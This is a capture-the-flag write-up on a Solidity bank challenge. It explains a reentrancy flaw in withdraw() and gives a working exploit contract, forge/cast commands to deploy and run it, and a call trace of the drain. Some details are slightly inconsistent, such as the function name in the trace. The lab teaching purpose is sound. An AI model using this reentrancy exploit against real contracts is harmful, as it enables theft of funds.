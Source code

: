 This bank is not as secure as you might think. First,  let's see what the *isSolved()* condition is on the setup contract.  &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import {InjuBank} from "./InjuBank.sol";

contract Setup {
    InjuBank public immutable IB;

    constructor() payable{
        IB = new InjuBank{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(IB).balance == 0;
    }
}
```
&nbsp;  
Based on the setup contract, the initial balance of the bank is 50 Ether, while the *isSolved()* will return true if it has 0 balance, now let's see the Inju Bank to see what we are dealing with. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract InjuBank{

    mapping(address => uint256) public balanceOf;

    constructor() payable{}

    function deposit() public payable{
        require(msg.value > 1 ether, "Minimum Deposit is 1 ether");
        uint256 toAdd = msg.value;
        balanceOf[msg.sender] += toAdd;
    }

    function withdraw(uint256 _amount) public{
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        balanceOf[msg.sender] = newBalance;
    }

    receive() external payable { 
        deposit();
    }

}
```
&nbsp;  
We only have 2 functions to deal with in this contract; yeah, let's say the *receive()* is the same as the *deposit()*. So first, the *deposit()* function allows us to deposit some Ether to the bank and add it to our account; it has the minimum deposit of 1 Ether. Next up is the *withdraw()* that allow us to withdraw our money with the minimum amount of 1 Ether per withdrawal. Nothing seems strange until we look more closely &nbsp;  
&nbsp;  

```solidity
    function withdraw(uint256 _amount) public{
        // CHECKS 
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        // INTERACTIONS
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        // EFFECT
        balanceOf[msg.sender] = newBalance;
    }
```
&nbsp;  
The best practice of any function is always CEI, or **CHECK** - **EFFECT** - **INTERACTIONS**, the *withdraw()* function, however, doesn't seem to apply this correctly; instead it implements CIE, or **CHECK** - **INTERACTIONS** - **EFFECT**, in this case, the **INTERACTIONS** is sending the balance to the *msg.sender*, which, if it's a smart contract or more explicitly an Exploit Contract, we can control what to do next after receiving any Ether by modifying the *receive()* function on our Exploit Contract. &nbsp;  
&nbsp;  
The Exploit will have this flow; first we have to deposit some Ether; since the minimum is one and we have 6 Ether, we can give our Exploit 5 Ether and make it deposit all that Ether. Next is calling the withdraw with the value of 5 (our balance); upon receiving the Ether, we can just make it trigger another *withdraw()* of another 5 Ether; this will be repeated until we drain all the balance on the Inju Bank. The exploit would look like this &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./InjuBank.sol";
import "./Setup.sol";

contract Exploit{
    Setup public immutable setup;
    InjuBank public immutable IB;

    constructor(address payable _setup) payable {
        require(msg.value == 5 ether, "need 5 ether");
        setup = Setup(_setup);
        IB = InjuBank(setup.IB());
    }

    function exploit() public{
        IB.deposit{value: 5 ether}();
        IB.withdraw(5 ether);
    }


    receive() external payable { 
        if(address(IB).balance >= 5 ether){
            IB.withdraw(5 ether);
        }
    }

}
```
&nbsp;  
To deploy the exploit contract and run it, we can use this command. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/inju-bank/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Calling the exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
After running the command, if you press the *Flag* button now you should get the flag. By the way, if you are curious on like how the attack worked, here is a little flow of the Exploit. &nbsp;  
&nbsp;  
```bash
├─ [123849] Exploit::attack()
    │   ├─ [22434] InjuBank::deposit{value: 5000000000000000000}()
    │   │   └─ ← ()
    │   ├─ [91371] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   ├─ [83596] Exploit::receive{value: 5000000000000000000}()
    │   │   │   ├─ [83031] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   ├─ [75256] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   ├─ [74691] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   ├─ [66916] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   ├─ [66351] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   ├─ [58576] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [58011] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   ├─ [50236] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [49671] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41896] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41331] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [33556] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [32991] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [25216] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [24651] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16876] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16311] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [8536] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [7971] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [196] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   └─ ← ()
    │   │   │   │   └─ ← ()
    │   │   │   └─ ← ()
    │   │   └─ ← ()
    │   └─ ← ()
```
&nbsp;  
In short, when the Ether is received by our Exploit Contract, it will first check whether the Inju Bank Contract still has balance or not (greater than or equal to 0), if it's valid, it will then call another *withdraw()* with 5 Ether, until it's false.